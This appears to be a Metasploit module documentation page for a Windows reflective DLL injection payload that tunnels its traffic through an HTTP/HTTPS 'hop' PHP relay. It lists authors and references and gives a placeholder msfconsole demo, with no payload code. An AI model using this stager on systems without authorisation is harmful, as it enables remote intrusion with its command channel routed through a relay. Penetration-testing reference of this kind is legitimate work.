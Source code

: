 ## Reflective DLL Injection, Reverse Hop HTTP/HTTPS Stager

Inject a DLL via a reflective loader. Tunnel communication 
over an HTTP or HTTPS hop point. Note that you must first 
upload data/hop/hop.php to the PHP server you wish to use as 
a hop.


## Module Name
payload/windows/dllinject/reverse_hop_http

## Authors
* sf
* scriptjunkie <scriptjunkie[at]scriptjunkie.us>
* bannedit
* hdm


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/dllinject/reverse_hop_http
msf payload(reverse_hop_http) > show targets
   ... a list of targets ...
msf payload(reverse_hop_http) > set TARGET <target-id>
msf payload(reverse_hop_http) > show options
   ... show and set options ...
msf payload(reverse_hop_http) > run
```
    
    